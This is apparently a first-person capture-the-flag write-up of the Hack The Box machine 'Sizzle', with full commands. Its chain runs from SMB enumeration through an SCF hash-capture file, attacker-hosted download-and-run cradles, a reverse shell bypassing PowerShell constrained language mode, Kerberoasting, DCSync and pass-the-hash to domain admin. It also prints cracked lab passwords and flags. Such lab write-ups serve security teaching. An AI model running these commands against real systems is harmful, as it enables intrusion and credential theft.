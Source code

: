 
Port 21 (FTP)
Port 5985 WinRM
Port 5986 WinRM (SSL)
Port 445 SMB
Port 389 LDAP

Since the FTP service is active, I can connect as anonymous to enumerate information.
```
ftp 10.10.10.103
```

There's nothing to enumerate, so I try the HTTP service, which is a website.
```
whatweb 10.10.10.103
```

This reports that IIS and ASP.NET technology are being used. 

So, I check the website in the browser via HTTP and HTTPS.

There's nothing interesting on the website, but since HTTPS is active, I use OpenSSL to inspect the SSL certificate.
```
openssl s_client -connect 10.10.10.103
```

This way, I find domain names, which I add to my host file in case virtual hosting is used on the victim machine. 

As SMB is exposed, I use the CrackMapExec tool to gather more information about the machine.
```
crackmapexec smb 10.10.10.103
```

This reports another domain, which I also add to my host file.

I'll check if I have access to the SMB shared resources. For this, I use SMBMap.
```
smbmap -H 10.10.10.103 -u 'null'
```

There's a resource where I have read access, "Department Shares."

So, I create a mount on my machine to easily access all those files.
```
# On my machine
mkdir /mnt/mount
mount -t cifs "//10.10.10.103/Department Shares" /mnt/mount
```

I find a list of users, so I save them in a file since these users can be useful for gaining access to the machine later. I could try ASREPRoast attack, but as port 88 (Kerberos) is not open, I can't do it.

So, I check the users' directories to see if I have permissions to write to any of them.
```
for directory in $(ls); do echo "[+] Enum permissions $directory:\n"; echo -e "\t$(smbcacls "//10.10.10.103/Department Shares" Users/$directory -N | grep "Everyone")"; done"
```

I have write access to the "public" directory, so now I can take advantage of this to get an NTLM hash using an SCF file.

SCF File Attack

There's an application where I can upload a printer firmware, and it seems there's a testing team that checks the uploaded file. I can attempt an SCF File attack by abusing the icon. In an SCF file attack, the attacker creates a specially crafted SCF file that takes advantage of the way Windows handles these shortcut files. When the victim opens or even previews the SCF file, Windows automatically attempts to load icon resource information from it. This automatic behavior can be exploited by attackers to gather sensitive information like NTLMv2 hashes when the victim accesses the malicious SCF file over an SMB (Server Message Block) share. Create an `.scf` file with the following content:

```plaintext
[Shell]
Command=2
IconFile=\\10.10.14.4\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Then, mount a shared resource via SMB on your machine with Impacket smbserver:
```bash
impacket-smbserver share $(pwd) -smb2support
```

This will allow you to obtain the NTLMv2 hash.

This way, I obtain the hash of the "amanda" user, which I can try to crack:
```bash
john --wordlist=rockyou hash
```

Once the hash is cracked, I can validate with CrackMapExec that these credentials are valid:
```bash
crackmapexec smb 10.10.10.103 -u 'amanda' -p 'Ashare1972'
SMB         10.10.10.103    445    SIZZLE           [+] HTB.LOCAL\amanda:Ashare1972 
```

Since I have valid credentials, I can perform a Kerberoasting attack:
```bash
GetUserSPNs htb.local/amanda:Ashare1972
http/sizzle           mrlky  CN=Remote Management Users,CN=Builtin,DC=HTB,DC=LOCAL  2018-07-10 13:08:09.536421  2018-07-12 09:23:50.871575
```

The "mrlky" user is kerberoastable, but the problem is that port 88 (Kerberos) is not exposed, so I can't request the hash for this user.

There are two attack vectors: using the Rubeus tool (but I need to gain prior access to the machine), and the other option is to use Chisel to perform remote port forwarding and gain access to port 88 (Kerberos).

Enumerating administrators using rpcclient:
```bash
rpcclient -U 'amanda%Ashare1972'
enumdomgroups
querygroupmem 0x200
queryuser 0x644
```

The "amanda" user belongs to the "Remote Management Service" group, so I can connect via WinRM. Since port 5986 (WinRM SSL) is open, I need to find a way to connect via this:
Remote Management Users: amanda, mrlky

I will fuzz the web for directories using tools like Gobuster or wfuzz and the IIS.fuzz.txt dictionary:
```bash
wfuzz -c --hc=404 -t 200 -w /wordlist http://10.10.10.103/FUZZ
```

wfuzz found "certsrv," and when I tested it on the web, it asked for authentication. I can use the credentials I already have.

I gained access to an Active Directory certificate application. With this, I can request a certificate and gain access through the evil-winrm tool with the -c -S parameter:
```bash
# On my machine, create a pair of keys with OpenSSL
mkdir amanda
cd amanda
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

Provide the CSR in the application to obtain the certificate:
```bash
evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

This way, I gained access to the machine as "amanda."

Privilege Escalation

Use BloodHound to collect all the information from the machine:
```bash
mkdir bloodhound
cd bloodhound
bloodhound-python -c ALL -u 'amanda' -p 'Ashare1972' -ns 10.10.10.103 -d htb.local
neo4j console
bloodhound
```

This can also be done another way since I have access to the machine. I can use SharpHound.ps1: https://github.com/BloodHoundAD/Blood

Hound/blob/master/Collectors/SharpHound.ps1
```bash
# On my machine
python -m http.server 80
# On the victim machine
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/sharphound.ps1')
```

It gave a CLM error (only core types are supported in this language mode), so I have to bypass it using the psbypassclm tool: https://github.com/padovah4ck/PSByPassCLM/tree/master
```bash
# On my machine
python -m http.server 80
rlwrap nc -nlvp 1234
# On the victim machine
iwr -uri http://10.10.14.4/psbypassclm.exe -OutFile psbypasscml.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.4 /rport=1234 /U c:\temp\psbypasscml.exe
```

Now, try running the SharpHound.ps1 script again:
```bash
# On my machine
python -m http.server 80
# On the victim machine
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.4/sharphound.ps1')
Invoke-BloodHound -CollectionMethod ALL
```

Now, I need to download the .zip file to my machine:
```bash
# On my machine
smbserver share $(pwd) -smb2support -username kevin -password kevin123
# On the victim machine
net use x: \\10.10.14.4\share /user:kevin kevin123
copy .zip x:\.zip
```

Now, execute that .zip file in my BloodHound.

Through BloodHound, I found that the "mrlky" user is kerberoastable. For this, I will use the Rubeus tool: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe
```bash
# On my machine
python -m http.server 80
# On the victim machine
iwr -uri http://10.10.14.4/rubeus.exe -OutFile rubeus.exe
./rubeus kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```

This way, I obtained the hash of the "mrlky" user, and now I need to crack the hash:
```bash
john --wordlist=rockyou hash
```

I got the credentials of the other user. Now, with the secretsdump tool, I can perform a DCSync attack since the user has the getchanges and getchangesall privileges:
```bash
secretsdump htb.local/mrlky:Football#7@10.10.10.103
```

This way, I obtained the hash of the "Administrator" user, and I can use the hash to pass-the-hash with the wmiexec tool:
```bash
wmiexec htb.local/Administrator@10.10.10.103 -hashes :hash
```

This way, I compromised the machine and can consider it as completed.

Root flag: 6cf96d217e4e5721f4ac3c3a6f4fa470
User flag: 07fb9f0f240d21bb2045d8191a044365